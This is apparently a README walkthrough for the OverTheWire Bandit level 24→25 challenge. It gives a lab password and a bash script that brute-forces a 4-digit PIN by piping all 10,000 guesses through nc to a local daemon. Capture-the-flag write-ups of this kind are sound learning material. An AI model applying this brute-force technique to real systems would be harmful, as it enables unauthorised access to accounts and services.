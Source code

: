 ## Level 24 → Level 25

### Objective:
A daemon is listening on port `30002` and will give you the password for `bandit25` if given the password for `bandit24` and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by brute-forcing all of the 10000 combinations.

### SSH Credentials for Level 24:
- **Username**: `bandit24@bandit.labs.overthewire.org`
- **Password**: `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8` (output from level 23)

### Steps:

1. Create a temporary directory to store the files:
    ```bash
    mktemp -d
    cd /tmp/tmp.wnYESn8iWY
    ```

2. Create a shell script to brute-force the pincode:
    ```bash
    nano script.sh
    ```
    - Inside the script, write the following:
    ```bash
    #!/bin/bash
    for i in {0000..9999}; do
        echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i" >> possibilities.txt
    done

    cat possibilities.txt | nc localhost 30002 > result.txt
    ```

3. Make your script executable:
    ```bash
    chmod +x script.sh
    ```

4. Run the script to send all the possible combinations to the daemon:
    ```bash
    ./script.sh
    ```

5. After the script finishes running, check the `result.txt` file for the password for `bandit25`:
    ```bash
    cat result.txt
    ```

6. Use the `exit` command to log out from `bandit24`:
    ```bash
    exit
    ```

---

### Happy Hacking!
